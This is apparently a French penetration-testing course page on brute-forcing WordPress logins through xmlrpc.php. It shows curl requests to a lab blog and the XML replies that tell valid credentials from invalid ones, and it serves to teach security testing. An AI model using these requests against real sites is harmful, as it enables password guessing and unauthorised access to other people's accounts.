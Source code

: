 Se connecter
============

* * * * *

Une fois que nous sommes armés d'une liste d'utilisateurs valides, nous pouvons lancer une attaque par force brute de mot de passe pour tenter d'accéder au backend WordPress. Cette attaque peut être effectuée via la page de connexion ou la `xmlrpc.php`page.

Si notre requête POST `xmlrpc.php`contient des informations d'identification valides, nous recevrons le résultat suivant :

#### cURL - Requête POST

  cURL - Requête POST

```
dsgsec@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

```

Si les informations d'identification ne sont pas valides, nous recevrons une `403 faultCode`erreur.

#### Identifiants invalides - 403 interdit

  Identifiants invalides - 403 interdit

```
dsgsec@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>

```

Ces dernières sections ont présenté plusieurs méthodes pour effectuer une énumération manuelle sur une instance WordPress. Il est essentiel de comprendre les méthodes manuelles avant d'essayer d'utiliser des outils automatisés. Même si les outils automatisés accélèrent considérablement le processus de test d'intrusion, il est de notre responsabilité de comprendre leur impact sur les systèmes que nous évaluons. Une solide compréhension des méthodes d'énumération manuelle aidera également au dépannage si des outils automatisés ne fonctionnent pas correctement ou fournissent un résultat inattendu.

